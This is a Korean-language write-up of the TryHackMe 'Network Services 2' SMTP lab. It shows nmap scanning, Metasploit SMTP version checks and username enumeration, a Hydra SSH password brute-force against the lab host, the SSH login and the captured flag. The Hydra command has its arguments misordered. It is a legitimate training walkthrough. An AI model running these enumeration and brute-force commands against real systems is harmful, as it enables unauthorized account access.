





# TryHackMe - Network Services 2 (SMTP)

> 이 실습에서는 TryHackMe의 Network Services 2 실습을 기반으로, SMTP 프로토콜을 활용해 사용자 정보를 수집하고, 이를 바탕으로 SSH 접근까지 시도해보았습니다.

---

## 1. 실습 개요

- **타깃 머신 IP**: `10.10.71.13`
- **공격 머신 환경**: Kali Linux 2023.4
- **실습 일자**: 2025-04-15
- **사용 도구**:
  - `nmap`: 포트 및 서비스 정보 수집
  - `Metasploit Framework`: SMTP 서비스 정보 및 사용자 확인
  - `hydra`: SSH Brute-force 공격 도구
  - `ssh`: 시스템 로그인

---

## 2. 정보 수집

### 2.1 포트 스캔

```bash
nmap -A -vv -T4 -p- 10.10.71.13 -oN nmap_scan.txt
```

| 포트 | 서비스 | 설명 |
|--------|-----------|------------------------------------------|
| 22/tcp | ssh       | OpenSSH 7.6p1 (Ubuntu Linux)             |
| 25/tcp | smtp      | Postfix ESMTP                            |

- 상세 스캔 결과: [nmap_scan.txt](./nmap_scan.txt) 파일 참조

---

## 3. 실습 과정

### 3.1 Metasploit 콘솔 실행

- 설명: SMTP 관련 스캐닝 및 사용자 식별 모듈을 활용하기 위해 Metasploit Framework 을 사용 하였습니다.

```bash
msfconsole
```

--- 

### 3.2 SMTP 버전 확인 (Metasploit smtp_version)

- 설명: 메일 서버에서 실행 중인 SMTP 소프트웨어(예: Postfix)의 버전 정보를 식별합니다. 이를 통해 해당 버전의 알려진 취약점 존재 여부를 확인할 수 있습니다.

```bash
use auxiliary/scanner/smtp/smtp_version
set rhosts 10.10.71.13
run
```


---

### 3.3 사용자명 리스트 다운로드

```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
```

- 설명: Metasploit의 `smtp_enum` 모듈에서 사용할 사용자 이름 리스트를 외부 GitHub 저장소에서 다운로드하여 나의 터미널에 저장합니다. 후에 이 파일을 `/usr/share/wordlists/top-usernames-shortlist.txt` 경로로 저장 했습니다. 이를 통해 실제 존재하는 SMTP 계정을 식별하는 데 활용할 수 있습니다.



- wordlist로 경로 변경


---

### 3.4 사용자 확인 (Metasploit smtp_enum)

- 설명: SMTP 서버사용자 이름의 존재 여부를 확인하기 위해 `smtp_enum` 모듈을 사용 했습니다. `smtp_enum` 모듈은 워드리스트 내 계정명을 하나씩 대입해 유효한 사용자 정보를 수집합니다.

```bash
use auxiliary/scanner/smtp/smtp_enum
set rhosts 10.10.71.13
set user_file /usr/share/wordlists/top-usernames-shortlist.txt
run
```


---

### 3.5 Hydra를 이용한 SSH Brute-force 공격

- 설명: 확인된 사용자 `administrator` 계정에 대해 rockyou.txt 사전을 활용하여 SSH 로그인에 사용할 비밀번호를 대입하며 무차별 대입(Brute-force) 공격을 수행합니다.

```bash
hydra -l administrator -P 10.10.71.13 /usr/share/wordlists/rockyou.txt ssh
```

- 상세 Hydra 결과: [administrator_password.txt](./administrator_password.txt) 파일 참조

---

### 3.6 SSH 접속

- 설명: Hydra를 통해 획득한 비밀번호를 이용해 administrator 사용자로 SSH 접속을 시도합니다. 후에 `smtp.txt` 파일을 열어 플래그를 확보 했습니다.

```bash
ssh administrator@10.10.71.13
```
- 획득한 플래그: `THM{who_knew_email_servers_were_c00l?}`



---

## 4. 배운 점

- Metasploit의 `smtp_enum` 모듈은 사용자 이름을 수집하는 데 유용하며, 취약하게 설정된 SMTP 서버에서 계정 정보를 노출할 수 있다.
- 단일 정보 수집 단계에서 계정명 식별과 이후 Brute-force 공격을 통해 시스템에 접근할 수 있는 실질적인 시나리오를 확인했다.
- 이메일 서비스 또한 공격 표면이 될 수 있으며, 기본 설정이 보안상 위험할 수 있다는 점을 체감했다.
- 본 실습을 통해 Metasploit이 제공하는 다양한 모듈의 유용성과 강력함을 다시 한 번 확인할 수 있었다.
